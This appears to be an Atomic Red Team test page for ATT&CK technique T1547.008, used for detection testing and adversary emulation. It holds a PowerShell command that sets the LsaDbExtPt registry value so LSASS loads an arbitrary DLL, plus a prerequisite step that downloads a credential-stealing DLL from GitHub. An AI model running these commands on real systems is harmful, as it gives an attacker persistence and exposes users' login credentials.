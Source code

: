 ```yaml
---
tags: [T1547_008, atomic_test]
filename: "[[T1547.008|T1547.008 - Boot or Logon Autostart Execution: LSASS Driver]]"
---
```


# T1547.008 - Boot or Logon Autostart Execution: LSASS Driver
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/008)
<blockquote>Adversaries may modify or add LSASS drivers to obtain persistence on compromised systems. The Windows security subsystem is a set of components that manage and enforce the security policy for a computer or domain. The Local Security Authority (LSA) is the main component responsible for local security policy and user authentication. The LSA includes multiple dynamic link libraries (DLLs) associated with various other security functions, all of which run in the context of the LSA Subsystem Service (LSASS) lsass.exe process.(Citation: Microsoft Security Subsystem)

Adversaries may target LSASS drivers to obtain persistence. By either replacing or adding illegitimate drivers (e.g., [Hijack Execution Flow](https://attack.mitre.org/techniques/T1574)), an adversary can use LSA operations to continuously execute malicious payloads.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Modify Registry to load Arbitrary DLL into LSASS - LsaDbExtPt](#atomic-test-1---modify-registry-to-load-arbitrary-dll-into-lsass---lsadbextpt)


<br/>

## Atomic Test #1 - Modify Registry to load Arbitrary DLL into LSASS - LsaDbExtPt
The following Atomic will modify an undocumented registry key that may be abused to load a arbitrary DLL into LSASS. 

Upon execution, the registry key will be modified and a value will contain the path to the DLL. 
Reference: https://blog.xpnsec.com/exploring-mimikatz-part-1/ and source https://github.com/oxfemale/LogonCredentialsSteal
Note that if any LSA based protection is enabled, this will most likely not be successful with LSASS.exe loading the DLL.

**Supported Platforms:** Windows


**auto_generated_guid:** 8ecef16d-d289-46b4-917b-0dba6dc81cf1





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | Module to be loaded into LSASS | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;lsass_lib.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NTDS -Name LsaDbExtPt -Value "#{dll_path}"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\NTDS" -Name "LsaDbExtPt" -ErrorAction Ignore | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: lsass_lib.dll must exist on disk at specified location (#{dll_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/oxfemale/LogonCredentialsSteal/raw/53e74251f397ddeab2bd1348c3ff26d702cfd836/lsass_lib/x64/Release/lsass_lib.dll" -UseBasicParsing -OutFile "#{dll_path}"
```




<br/>
